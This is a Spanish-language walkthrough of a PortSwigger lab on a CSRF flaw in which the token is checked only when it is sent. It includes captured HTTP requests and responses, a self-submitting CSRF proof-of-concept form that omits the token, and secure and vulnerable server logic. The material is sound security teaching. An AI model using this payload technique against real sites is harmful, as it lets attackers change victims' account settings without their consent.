


# PortSwigger Web Security Academy — CSRF Lab 3

# CSRF where token validation depends on token being present

**URL del lab:** `https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present`  
**Categoría:** CSRF  
**Nombre:** CSRF where token validation depends on token being present  
**Credenciales:** `wiener:peter`  
**Objetivo:** alojar en el exploit server una página HTML que fuerce al navegador de la víctima a cambiar su email mediante CSRF.

---

## Capturas incluidas

- `images/01_lab_home.png`
- `images/02_lab_solved.png`





---

# 1. Idea general del laboratorio

Este laboratorio enseña un bypass CSRF muy importante.

La aplicación intenta proteger la funcionalidad de cambio de email usando un token CSRF.

A primera vista parece que la aplicación está protegida porque la petición legítima incluye un parámetro como este:

```text
csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

Además, si modificamos ese token por un valor incorrecto, la aplicación responde:

```text
Invalid CSRF token
```

Eso podría hacer pensar que la protección está bien implementada.

Pero el fallo real es otro:

```text
La aplicación solo valida el token si el parámetro csrf está presente.
```

Es decir:

```text
csrf correcto   -> petición aceptada
csrf incorrecto -> petición rechazada
csrf ausente    -> petición aceptada
```

Ese tercer caso es la vulnerabilidad.

---

# 2. Qué es CSRF

CSRF significa:

```text
Cross-Site Request Forgery
```

En español:

```text
Falsificación de petición en sitios cruzados
```

La idea básica es esta:

Un atacante no necesita robar la cookie de sesión de la víctima.

Solo necesita conseguir que el navegador de la víctima envíe una petición a la aplicación vulnerable.

El navegador enviará automáticamente las cookies de sesión correspondientes a ese dominio.

---

# 3. Por qué el navegador es clave en CSRF

Cuando un usuario inicia sesión en una web, el servidor le entrega una cookie de sesión.

Ejemplo:

```http
Set-Cookie: session=pERYv91Y4Fm7KSl2jBY55iiHh36AyymJ
```

Después, cada vez que el navegador haga una petición a esa misma web, enviará automáticamente la cookie:

```http
Cookie: session=pERYv91Y4Fm7KSl2jBY55iiHh36AyymJ
```

Esto ocurre aunque la petición haya sido provocada desde otra página.

Por ejemplo, si la víctima visita una página maliciosa alojada en el exploit server, esa página puede contener un formulario que envíe una petición a:

```text
https://victima.web-security-academy.net/my-account/change-email
```

Cuando el navegador envíe esa petición, añadirá automáticamente la cookie de sesión de la víctima.

El atacante no ve la cookie.

El atacante no roba la cookie.

Pero el navegador sí la envía.

Ahí está la base de CSRF.

---

# 4. Diferencia entre autenticación e intención

Este punto es fundamental.

El servidor suele comprobar:

```text
¿La petición viene con una cookie de sesión válida?
```

Si la respuesta es sí, considera que el usuario está autenticado.

Pero CSRF explota otra pregunta distinta:

```text
¿El usuario realmente quiso hacer esta acción?
```

Una petición puede estar autenticada pero no ser intencional.

En CSRF, la petición se envía con la sesión real de la víctima, pero fue provocada por el atacante.

---

# 5. Para qué sirve un token CSRF

Un token CSRF es un valor secreto, aleatorio y asociado a la sesión del usuario.

Ejemplo:

```html
<input type="hidden" name="csrf" value="sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT">
```

Cuando el usuario envía el formulario legítimo, el navegador manda:

```text
email=nuevo@email.com
csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

El servidor comprueba:

```text
¿El token enviado coincide con el token esperado para esta sesión?
```

Si coincide, permite la acción.

Si no coincide, bloquea la acción.

---

# 6. Por qué el atacante no puede saber el token

El atacante puede crear una página externa con un formulario malicioso.

Pero no puede leer el HTML de la página legítima de la víctima debido a la Same-Origin Policy.

La Same-Origin Policy impide que un sitio como:

```text
https://exploit-server.net
```

lea contenido de:

```text
https://web-security-academy.net
```

Por eso, si el token CSRF es obligatorio y secreto, el atacante no puede construir una petición válida.

---

# 7. Pero este lab rompe esa lógica

En este laboratorio, el token existe y se valida, pero solo si aparece en la petición.

La aplicación vulnerable parece seguir esta lógica:

```python
if "csrf" in request.form:
    validate_csrf(request.form["csrf"])

change_email(request.form["email"])
```

El error es que si el parámetro `csrf` no está presente, la función `validate_csrf()` nunca se ejecuta.

La lógica segura debería ser:

```python
if "csrf" not in request.form:
    reject_request()

validate_csrf(request.form["csrf"])

change_email(request.form["email"])
```

---

# 8. Diferencia con el laboratorio anterior

Este lab se parece mucho al anterior, pero la diferencia es importante.

## Lab anterior: validación dependiente del método

En el lab anterior, el problema era que la aplicación validaba CSRF solo para POST, pero permitía hacer la misma acción con GET.

Lógica vulnerable:

```python
if request.method == "POST":
    validate_csrf()
```

Bypass:

```text
usar GET
```

---

## Este lab: validación dependiente de presencia del parámetro

En este lab, el endpoint solo acepta POST.

Si pruebas GET, devuelve:

```text
Method Not Allowed
```

El problema no está en el método.

El problema es que el backend solo valida si el parámetro `csrf` existe.

Bypass:

```text
usar POST, pero eliminar csrf
```

---

# 9. Inicio del laboratorio

Abrimos el laboratorio.

La web tiene aspecto de blog.

Nos autenticamos en:

```text
My account
```

con las credenciales:

```text
wiener:peter
```

Después vamos a la funcionalidad de cambio de email.

---

# 10. Capturando la petición legítima

Cambiamos el email y capturamos la request con Burp Suite.

La petición capturada es:

```http
POST /my-account/change-email HTTP/1.1
Host: 0ac7002b03c2c7c18247921c005000f8.web-security-academy.net
Cookie: session=pERYv91Y4Fm7KSl2jBY55iiHh36AyymJ
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac7002b03c2c7c18247921c005000f8.web-security-academy.net/my-account?id=wiener
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: https://0ac7002b03c2c7c18247921c005000f8.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

email=payload%40gmail.com&csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

---

# 11. Análisis de la petición

La request usa:

```http
POST /my-account/change-email
```

Esto indica que se está enviando una acción que modifica estado.

El body usa:

```http
Content-Type: application/x-www-form-urlencoded
```

Eso significa que los parámetros van en formato:

```text
clave=valor&clave2=valor2
```

El body es:

```text
email=payload%40gmail.com&csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

Decodificado:

```text
email=payload@gmail.com
csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

---

# 12. Qué significa `%40`

En URL encoding:

```text
%40 = @
```

Por eso:

```text
payload%40gmail.com
```

equivale a:

```text
payload@gmail.com
```

---

# 13. Primera prueba: token correcto

Con el token correcto, el servidor responde:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Un `302 Found` hacia `/my-account` indica que la acción se ha aceptado y el servidor redirige de vuelta a la cuenta.

---

# 14. Segunda prueba: token incorrecto

Ahora modificamos el token:

```text
email=payload%40gmail.com&csrf=a
```

El servidor responde:

```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid CSRF token"
```

Esto demuestra que:

```text
cuando el parámetro csrf existe, el servidor intenta validarlo.
```

Si el token no coincide, lo rechaza.

Hasta aquí, la defensa parece correcta.

---

# 15. Tercera prueba: eliminar completamente el token

Ahora quitamos el parámetro `csrf` entero.

El body queda:

```text
email=payload%40gmail.com
```

No mandamos:

```text
csrf=
```

No mandamos:

```text
csrf=a
```

No mandamos:

```text
csrf=valor
```

El parámetro directamente no existe.

El servidor responde:

```http
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

Esto es la prueba definitiva.

La acción se ha ejecutado sin token.

---

# 16. Diferencia entre token vacío y token ausente

Conviene distinguir tres casos.

## Caso 1: token válido

```text
csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT
```

Resultado:

```text
aceptado
```

## Caso 2: token inválido

```text
csrf=a
```

Resultado:

```text
rechazado
```

## Caso 3: token ausente

```text
(no hay parámetro csrf)
```

Resultado:

```text
aceptado
```

El tercer caso no debería existir.

---

# 17. Por qué esto es peligroso

El atacante no necesita conocer el token.

Tampoco necesita robarlo.

Tampoco necesita adivinarlo.

Solo necesita no enviarlo.

Eso convierte el token CSRF en una protección inútil.

---

# 18. Intento con GET

Probamos si el bypass del lab anterior también aplica.

Burp genera algo como:

```http
GET /my-account/change-email?email=payload%40gmail.com&csrf=sbthD3HJqzotE4KTlLpnT7o9IZWdhsUT HTTP/2
Host: 0ac7002b03c2c7c18247921c005000f8.web-security-academy.net
Cookie: session=pERYv91Y4Fm7KSl2jBY55iiHh36AyymJ
```

El servidor responde:

```http
HTTP/2 405 Method Not Allowed
Allow: POST
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Method Not Allowed"
```

Esto confirma:

```text
GET no sirve en este laboratorio.
```

El endpoint solo acepta POST.

---

# 19. Conclusión de la fase de análisis

Ya sabemos todo lo necesario:

```text
POST funciona.
POST con csrf válido funciona.
POST con csrf inválido falla.
POST sin csrf funciona.
GET no está permitido.
```

Por tanto, el exploit CSRF debe ser:

```text
un formulario POST que solo envíe email y NO envíe csrf.
```

---

# 20. Generando el PoC con Burp

Volvemos a la request POST sin token:

```text
email=payload%40gmail.com
```

En Repeater:

```text
Click derecho -> Engagement Tools -> Generate CSRF PoC
```

Burp genera automáticamente una página HTML que reproduce la request.

---

# 21. HTML del exploit

El PoC generado es:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac7002b03c2c7c18247921c005000f8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 22. Explicación del HTML línea por línea

## Apertura HTML

```html
<html>
```

Comienza el documento HTML.

---

## Body

```html
<body>
```

Todo lo que se cargará en el navegador va dentro del body.

---

## Formulario

```html
<form action="https://0ac7002b03c2c7c18247921c005000f8.web-security-academy.net/my-account/change-email" method="POST">
```

Esto crea un formulario que enviará una petición a:

```text
/my-account/change-email
```

usando método:

```text
POST
```

Esto es importante porque el endpoint no acepta GET.

---

## Campo email

```html
<input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
```

Este input genera el parámetro:

```text
email=payload@gmail.com
```

`&#64;` es la entidad HTML para `@`.

`&#46;` es la entidad HTML para `.`.

Entonces:

```text
payload&#64;gmail&#46;com
```

equivale a:

```text
payload@gmail.com
```

---

## Ausencia del token

El exploit NO contiene:

```html
<input type="hidden" name="csrf" value="...">
```

Esto es intencional.

Esa ausencia es el bypass.

---

## Botón submit

```html
<input type="submit" value="Submit request" />
```

Crea un botón de envío.

Pero la víctima no necesita pulsarlo.

---

## JavaScript automático

```html
<script>
  history.pushState('', '', '/');
  document.forms[0].submit();
</script>
```

La línea importante es:

```javascript
document.forms[0].submit();
```

Eso envía automáticamente el primer formulario de la página.

La víctima solo tiene que visitar el exploit.

---

# 23. Qué hace `history.pushState`

```javascript
history.pushState('', '', '/');
```

No es necesario para explotar CSRF.

Solo modifica la URL visible en el navegador para que parezca más limpia.

La parte esencial es:

```javascript
document.forms[0].submit();
```

---

# 24. Por qué el exploit funciona

Cuando la víctima visite el exploit server:

1. El navegador carga el HTML malicioso.
2. El formulario se envía automáticamente.
3. La petición va al dominio vulnerable.
4. El navegador añade la cookie de sesión de la víctima.
5. El body solo contiene `email`.
6. No contiene `csrf`.
7. El servidor no valida token.
8. El email se cambia.

---

# 25. Flujo completo del ataque

```text
Víctima está logueada
  ↓
Víctima visita exploit server
  ↓
Exploit server devuelve HTML malicioso
  ↓
HTML contiene formulario POST sin csrf
  ↓
JavaScript autoenvía el formulario
  ↓
Navegador envía:
POST /my-account/change-email
Cookie: session=victima
email=payload@gmail.com
  ↓
Servidor mira la petición
  ↓
No encuentra parámetro csrf
  ↓
No valida nada
  ↓
Cambia el email
  ↓
Lab solved
```

---

# 26. Uso del exploit server

Entramos al exploit server.

En el campo body pegamos el HTML.

Pulsamos:

```text
Store
```

Después pulsamos:

```text
Deliver exploit to victim
```

El laboratorio simula que la víctima visita nuestra página.

---

# 27. Resultado

El laboratorio queda resuelto.


---

# 28. Qué aprende este laboratorio

La lección principal es:

```text
No basta con tener un token CSRF.
El token debe ser obligatorio.
```

Una validación opcional no es una defensa.

---

# 29. Cómo debería haberse protegido correctamente

El servidor debería:

1. Rechazar peticiones sin token.
2. Rechazar tokens incorrectos.
3. Asociar el token a la sesión del usuario.
4. Usar tokens impredecibles.
5. Validar en todos los métodos que cambien estado.
6. Validar Origin/Referer como defensa adicional.
7. Usar cookies `SameSite`.

---

# 30. Lógica segura esperada

```python
def change_email(request):
    if request.method != "POST":
        return method_not_allowed()

    csrf = request.form.get("csrf")

    if not csrf:
        return forbidden("Missing CSRF token")

    if not valid_csrf(csrf, request.session):
        return forbidden("Invalid CSRF token")

    update_email(request.user, request.form["email"])
    return redirect("/my-account")
```

---

# 31. Lógica vulnerable probable

```python
def change_email(request):
    csrf = request.form.get("csrf")

    if csrf:
        validate_csrf(csrf)

    update_email(request.user, request.form["email"])
    return redirect("/my-account")
```

El problema está en:

```python
if csrf:
```

Porque si `csrf` no existe, se salta la validación.

---

# 32. Comparación mental rápida

| Caso | Resultado esperado seguro | Resultado vulnerable |
|---|---|---|
| Token correcto | aceptar | aceptar |
| Token incorrecto | rechazar | rechazar |
| Token ausente | rechazar | aceptar |

La última fila es la vulnerabilidad.

---

# 33. Por qué esto aparece en aplicaciones reales

Este tipo de bug aparece cuando:

- se añade CSRF a una app ya existente,
- se intenta mantener compatibilidad con clientes antiguos,
- se implementan validaciones manuales,
- se asume que todos los formularios enviarán token,
- se olvida tratar el caso “token ausente”.

El caso “token ausente” siempre debe ser tratado como fallo.

---

# 34. Frase clave

```text
Un token CSRF que no es obligatorio no protege contra CSRF.
```

---

# 35. Idea definitiva

El atacante controla los parámetros de la petición.

Por tanto, nunca puedes diseñar una defensa que dependa de:

```text
si el atacante decide enviar o no enviar un parámetro de seguridad.
```

El servidor debe exigir el parámetro siempre.

Si falta, la respuesta correcta es:

```text
rechazar.
```

---

# 36. Resumen final

Este laboratorio se explota así:

1. Iniciar sesión como `wiener:peter`.
2. Capturar la petición de cambio de email.
3. Confirmar que con token correcto funciona.
4. Confirmar que con token incorrecto falla.
5. Eliminar el parámetro `csrf`.
6. Confirmar que la petición sigue funcionando.
7. Crear un formulario POST sin parámetro `csrf`.
8. Alojarlo en el exploit server.
9. Enviar el exploit a la víctima.
10. El navegador de la víctima envía la cookie automáticamente.
11. El servidor omite la validación porque no hay parámetro csrf.
12. El email se cambia.
13. Laboratorio resuelto.

---

# 37. Payload final usado

```html
<html>
  <body>
    <form action="https://0ac7002b03c2c7c18247921c005000f8.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="payload&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

# 38. Cierre

La clave del lab no es memorizar el payload.

La clave es entender esta lógica:

```text
token presente + incorrecto = se valida y falla
token ausente = no se valida y pasa
```

Ese es el bug.

Y por eso el exploit final no contiene token CSRF.

